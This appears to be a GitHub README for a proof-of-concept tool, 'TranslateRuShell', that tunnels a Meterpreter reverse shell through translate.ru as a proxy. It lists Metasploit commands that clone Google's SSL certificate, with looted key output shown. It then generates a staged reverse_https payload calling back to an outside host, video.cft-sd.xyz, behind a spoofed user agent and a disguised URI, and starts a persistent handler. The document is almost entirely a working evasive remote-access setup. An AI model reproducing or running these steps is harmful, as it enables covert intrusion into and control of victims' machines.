 # TranslateRuShell (PoC)
Web reverse shell through translate.ru as proxy

## Generate Meterpreter payload for client

### Get Cert

1. use auxiliary/gather/impersonate_ssl
2. set RHOST www.google.com
3. set Proxies http:host:port
4. run


[\*] www.google.com:443 - Connecting to www.google.com:443

[\*] www.google.com:443 - Copying certificate from www.google.com:443

/C=PortSwigger/O=PortSwigger/OU=PortSwigger CA/CN=www.google.com 

[\*] www.google.com:443 - Beginning export of certificate files

[\*] www.google.com:443 - Creating looted key/crt/pem files for www.google.com:443

[\+] www.google.com:443 - key: /root/.msf4/loot/20181213121009_default_74.125.131.99_www.google.com_k_916621.key

[\+] www.google.com:443 - crt: /root/.msf4/loot/20181213121009_default_74.125.131.99_www.google.com_c_554054.crt

[\+] www.google.com:443 - pem: /root/.msf4/loot/20181213121009_default_74.125.131.99_www.google.com_p_521262.pem

[\*] Auxiliary module execution completed

### Generate staged payload with cert check

1. use payload/windows/meterpreter/reverse_https
2. set LHOST video.cft-sd.xyz
3. set LPORT 443
4. set HttpUserAgent "Mozilla/5.0 (X11; Windows x86_64; rv:60.0) Gecko/20100101 Firefox/60.0"
5. set LURI /rest/api
6. set stagerverifysslcert true
7. set HANDLERSSLCERT /media/sf_Pentest/20181213120429_default_74.125.131.106_www.google.com_p_105411.pem
8. set EXITFUNC thread
9. generate -t csharp

## Generate Meterpreter handler on server
1. use exploit/multi/handler
2. set PAYLOAD windows/meterpreter/reverse_https
3. set LHOST video.cft-sd.xyz
4. set LPORT 443
5. set LURI /rest/api
6. set stagerverifysslcert true
7. set HANDLERSSLCERT /media/sf_Pentest/20181213120429_default_74.125.131.106_www.google.com_p_105411.pem
8. set EXITFUNC thread
9. set ExitOnSession false
10. exploit -j -z
